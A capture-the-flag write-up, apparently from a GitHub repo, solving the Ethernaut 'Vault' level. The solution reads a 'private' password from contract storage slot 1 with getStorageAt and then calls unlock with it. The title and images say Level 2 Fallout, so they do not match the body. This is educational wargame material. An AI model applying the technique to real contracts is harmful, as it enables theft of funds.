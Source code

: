 <div align="center">

<img src="../assets/levels/2-fallout.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 2 - Fallout</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Level 8 - Vault](#level-8---vault)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [References](#references)

## Objectif

<img src="../assets/requirements/2-fallout-requirements.webp" width="800px"/>

## The hack

## Level 8 - Vault

It requires an understanding of how storage works in solidity (usage of 256 bit sized slots) and the JSON RPC function `eth_getStorageAt`

## Solution

Since the contract has a storage variable that stores the password, use `getStorageAt` to get the bytes32 form of the password, and then call the function unlock passing in the password

```
Step 1:
await contract.address;

Step2:
await web3.eth.getStorageAt("[contractAddress]", 1) // 1 because password is in the 2nd slot

Step 3:
await contract.unlock("[result from step 2]")
```

## Takeaway

Not to conflate the meaning of private in solidity vs other languages, existence of `getStorageAt`, how solidity stores state variables

## References

https://ethereum.org/en/developers/docs/apis/json-rpc/#eth_getstorageat
https://www.derekarends.com/solidity-vulnerability-forcibly-sending-ether-to-a-contract/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
